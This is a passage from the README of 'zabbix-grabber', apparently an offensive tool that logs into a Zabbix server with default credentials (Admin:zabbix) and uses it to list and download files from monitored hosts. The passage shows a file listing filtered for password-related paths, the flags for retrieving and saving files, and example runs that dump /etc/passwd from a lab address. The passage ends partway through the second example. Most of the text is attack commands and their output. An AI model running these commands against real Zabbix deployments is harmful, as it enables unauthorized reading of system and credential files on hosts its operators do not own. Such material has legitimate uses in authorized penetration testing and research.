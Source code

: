 ```
Regular expression filter: 'pass'

2024-12-07 09:08  /etc/passwd-  (1.88 KB)
2024-12-07 09:08  /etc/passwd  (1.90 KB)
2024-12-06 14:17  /etc/apparmor.d/1password  (354.00 B)
2024-12-06 14:17  /etc/apparmor.d/MongoDB_Compass  (386.00 B)
2024-12-06 14:17  /etc/apparmor.d/abstractions/smbpass  (581.00 B)
2024-12-06 14:17  /etc/security/opasswd  (0 B)
2024-12-06 14:17  /etc/pam.d/common-password  (1.58 KB)
2024-12-06 14:17  /etc/pam.d/chpasswd  (92.00 B)
2024-12-06 14:17  /etc/pam.d/passwd  (92.00 B)
2024-12-07 09:06  /etc/apache2/mods-available/proxy_fdpass.load  (93.00 B)
2024-12-06 14:17  /etc/ssl/certs/Buypass_Class_2_Root_CA.pem  (62.00 B)
2024-12-06 14:17  /etc/ssl/certs/Buypass_Class_3_Root_CA.pem  (62.00 B)
```
4. **Retrieve the contents of a file**: using `-D "filename"` in combination with `-F "foldername"`.
If you use `-G` in addition, the file will be downloaded instead of displaying it in the default output. When you use `-G` option, zabbix-grabber will create a folder called `ZGfiles` that will contain an structure of the files retrieved for each host ID. It will creat subfolders with the host ID number, and the structure of folders that contain the files you download. If you don't want that zabbix-grabber stores the files creating this structure and leave the files in the current execution folder path, you can use `--plain-structure`.
Example:
```
$ python3 zabbix-grabber.py -A http://192.168.0.33/zabbix -H 10084 -F "/etc" -D "passwd"
  ______     _     _     _         _____           _     _               
 |___  /    | |   | |   (_)       / ____|         | |   | |                                                                                                                                                                                  
    / / __ _| |__ | |__  ___  __ | |  __ _ __ __ _| |__ | |__   ___ _ __                                                                                                                                                                     
   / / / _` | '_ \| '_ \| \ \/ / | | |_ | '__/ _` | '_ \| '_ \ / _ \ '__|                                                                                                                                                                    
  / /_| (_| | |_) | |_) | |>  <  | |__| | | | (_| | |_) | |_) |  __/ |                                                                                                                                                                       
 /_____\__,_|_.__/|_.__/|_/_/\_\  \_____|_|  \__,_|_.__/|_.__/ \___|_|                                                                                                                                                                       

By: rM3ofM3

Connecting to http://192.168.0.33/zabbix using Admin:zabbix.
[Successful logon to Zabbix version 6.4.]

Content for file '/etc/passwd':

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```
Combined with `-G`
```
$ python3 zabbix-grabber.py -A http://192.168.0.33/zabbix -H 10084 -F "/etc" -D "passwd" -G
  ______     _     _     _         _____           _     _               
```